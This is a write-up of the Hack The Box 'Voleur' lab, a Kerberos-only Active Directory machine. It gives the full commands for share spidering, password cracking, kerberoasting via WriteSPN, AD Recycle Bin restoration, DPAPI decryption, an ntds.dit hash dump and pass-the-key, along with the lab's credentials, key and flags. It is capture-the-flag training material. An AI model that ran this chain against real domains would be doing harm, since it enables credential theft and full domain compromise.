<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - An assumed-breach, Kerberos-only box starting with `ryan.naylor:HollowOct31Nyt`. A share holds a password-protected `Access_Review.xlsx`, cracked with John, which leaks cleartext creds for `svc_ldap` and `svc_iis`. BloodHound shows `svc_ldap` has `WriteSPN` over `svc_winrm`, so I add an SPN and kerberoast it, crack the hash, and get a WinRM shell (user.txt). `svc_ldap` is in `restore_users`, so I restore the deleted user `todd.wolfe` from the AD Recycle Bin, decrypt his DPAPI-protected credentials to get `jeremy.combs`, use a leaked SSH key to log in as `svc_backup`, and from there grab `ntds.dit` + `SYSTEM`, dump the hashes, and pass-the-key as `Administrator` for root.txt.

## Recon

As usual I kicked off with nmap. One thing to keep in mind, this is an assumed-breach box, so it hands you some initial creds up front, `ryan.naylor:HollowOct31Nyt`, and we build the whole thing from there.

```bash
nmap -sV -sC -p- 10.129.84.4 -oN nmap/voleur -Pn
```



This looks like a domain controller, we've got LDAP and Kerberos open. So the first thing I did was validate the creds to see what ryan can actually touch. Small heads-up: NTLM is off on this box, so it's Kerberos only, which means `-k` goes on basically every command. Forget it once and you'll be staring at auth errors wondering what you broke. Ask me how I know.

```bash
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k
```



Then I wanted to enumerate the shares this user has access to.

```bash
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares
```



Found some interesting shares, so I used the `spider_plus` module to enumerate what's inside them faster and pull everything down.

```bash
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True
```



I downloaded the files to my machine to go through them properly, and found an interesting one called `Access_Review.xlsx`, so I opened it.



But it's password protected, so I cracked it with John.

```bash
office2john Access_Review.xlsx > hash.txt   # extract the hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt   # crack it
```



It cracked to `football1`, so now I can read the file.



The file has some user entries and notes, and even some cleartext passwords for a couple of users in the notes, `svc_ldap:M1XyC9pW7qT5Vn` and `svc_iis:N5pXyW1VqM7CZ8`. I validated both with nxc.

```bash
nxc ldap dc.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn -k
nxc ldap dc.voleur.htb -u svc_iis -p N5pXyW1VqM7CZ8 -k
```



Both valid, two more accounts in the pocket. Before charging in I ran BloodHound, because I've got 3 users now and I'd rather know who they actually are and what they can touch than start poking at things blindly.

```bash
bloodhound-python -u ryan.naylor -p HollowOct31Nyt -ns 10.129.84.4 -d voleur.htb -c all
```

## BloodHound → kerberoasting via WriteSPN

I ingested the files into the BloodHound GUI and got some interesting results.



`svc_ldap` has `WriteSPN` over `svc_winrm` (so I can kerberoast that service), and through the `restore_users` group it also has `GenericWrite` over `lacey.miller` and over the Second-Line Support OU (keep that `restore_users` membership in mind, it comes back later). Let's start with `lacey.miller`. The plan with `GenericWrite` is to add an SPN to her account and then kerberoast her, so I used bloodyAD to set the SPN.

```bash
bloodyAD --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object lacey.miller servicePrincipalName -v 'HTTP/fake.voleur.htb'
```



And now I can just kerberoast her.

```bash
nxc ldap dc.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn --kerberoasting hash.txt -k
```



Nice, let's save the hash and send it to John. And... yeah, that one just refused to die. Rockyou, rules, the works, nothing came out. Classic rabbit hole, and I burned a solid while on it before admitting defeat. No stress though, I still have `WriteSPN` over `svc_winrm`, so let's pull the exact same trick on that account instead and hope it's less stubborn.

```bash
bloodyAD --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object svc_winrm servicePrincipalName -v 'HTTP/fake2.voleur.htb'
```



Then I ran the same kerberoast command as before and got the hashes.



Cracked it with John, this time for `svc_winrm`.



And this one cracked no problem, `svc_winrm:AFireInsidedeOzarctica980219afi`. Much better. Let's validate it.



The creds are valid, but WinRM here only accepts a Kerberos ticket, so I need to request a TGT for that user first.

```bash
getTGT.py voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi' -dc-ip 10.129.84.4
```



So I requested the TGT, exported it to `KRB5CCNAME`, and logged in with evil-winrm.

```bash
export KRB5CCNAME=svc_winrm.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```



And boom, we've got a shell on the box. First flag in the bag:

```
9de8d27b9156b07a333c896e7e4c4da9
```

## Restoring a deleted user (AD Recycle Bin)

Next step, and this is where it gets fun. Back on that Excel there was a user flagged as deleted, with his password sitting right there in cleartext. And remember `svc_ldap` sits in the `restore_users` group? Yeah, time for a bit of Active Directory necromancy, we're bringing a dead account back to life. First I checked which user was actually deleted, I had my money on `todd.wolfe` since we'd already seen him in the Excel.

```bash
bloodyAD --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k get children --target 'CN=Deleted Objects,DC=voleur,DC=htb'
```



Confirmed, `todd.wolfe` is the deleted user. Let's get him back. For this I requested a TGT for `svc_ldap` and then used bloodyAD to restore the account.

```bash
getTGT.py voleur.htb/svc_ldap:'M1XyC9pW7qT5Vn' -dc-ip 10.129.84.4
export KRB5CCNAME=svc_ldap.ccache
bloodyAD --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set restore 'todd.wolfe'
```



And just like that, todd is back from the grave, `todd.wolfe:NightT1meP1dg3on14`. Let's make sure the resurrection actually took.



Alive and kicking. Enumerating the shares again as todd, I found he has access to another folder inside the `IT` share, this time called `Second-Line Support`. Inside looks like an archive for users who already left the company, basically everything that was on that user's machine, this time for `todd.wolfe`.

## DPAPI → jeremy.combs

Inside todd's archived profile is a copy of his old Windows data, and this is where DPAPI enters the chat. Quick rundown if you've never played with it: Windows keeps protected secrets (saved credentials and that kind of thing) under the user's AppData, encrypted with a DPAPI master key, and that master key is itself encrypted with the user's password plus their SID. So if I've got todd's password, I can peel the master key open, and then use it to crack the credential blob sitting next to it. That's the theory anyway, let's see if it holds.

I found the master key, so I used dpapi.py to decrypt it with todd's password and SID.

```bash
dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password 'NightT1meP1dg3on14'
```



Then I used that decrypted key to decrypt the protected credential file.

```bash
dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```



And this file revealed creds for another user, `jeremy.combs:qT3V9pLXyN7W4m`. Let's test it.



Valid, so back to BloodHound I marked this user as owned to see the next step. This guy is from third-line support, so maybe he's got a folder on the SMB share too, and yeah he does. Inside were 2 files, an `id_rsa` (probably to SSH on port 2222) and a `Note.txt`.



## SSH as svc_backup → NTDS dump

The note just points us to SSH, and it mentions `svc_backup`, so let's log in as that user with the key on port 2222.



And we're in. Now hold on, a backup service account, on a domain controller? Oh, you already know where this is heading. That screams NTDS.dit, so let's go dig it out. I did a quick search for the files on the system and pulled them over to my machine.



Then with secretsdump.py I dumped all the hashes.

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```



And there it is, every hash on the domain, Administrator included. I don't even need to crack anything, I'll just grab a TGT straight from his AES key (pass-the-key) and walk in through the front door.

```bash
getTGT.py voleur.htb/Administrator -aesKey f577668d58955ab962be9a489c032f06d84f3b66cc05de37716cac917acbeebb
```

Export the ticket, open a session as Administrator, and the box is done.



Root flag:

```
4adaf757d6eff2fca6620789ba6320dc
```

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | assumed breach `ryan.naylor`, SMB spider | `Access_Review.xlsx` (cracked: `football1`) |
| Foothold | cleartext creds in the xlsx notes | `svc_ldap` + `svc_iis` |
| User | `WriteSPN` over `svc_winrm` → kerberoast + TGT | WinRM shell (user.txt) |
| Lateral | `restore_users` → restore `todd.wolfe` from Recycle Bin | todd's archived profile |
| Lateral | DPAPI master key + credential decrypt | `jeremy.combs` → SSH key → `svc_backup` |
| Root | grab `ntds.dit` + `SYSTEM`, secretsdump, pass-the-key | `Administrator` (root.txt) |

## Final thoughts

Long one, but a really clean chain once the pieces click. What I liked most is how everything loops back on itself, that `restore_users` group gave me the ACLs to kerberoast AND the power to raise todd from the dead, and todd's DPAPI loot then handed me the next user. No single crazy exploit, just one solid pivot feeding into the next. The Kerberos-only setup kept me honest too, no lazy NTLM shortcuts, you actually have to babysit your tickets the whole way through. Really enjoyed this one.
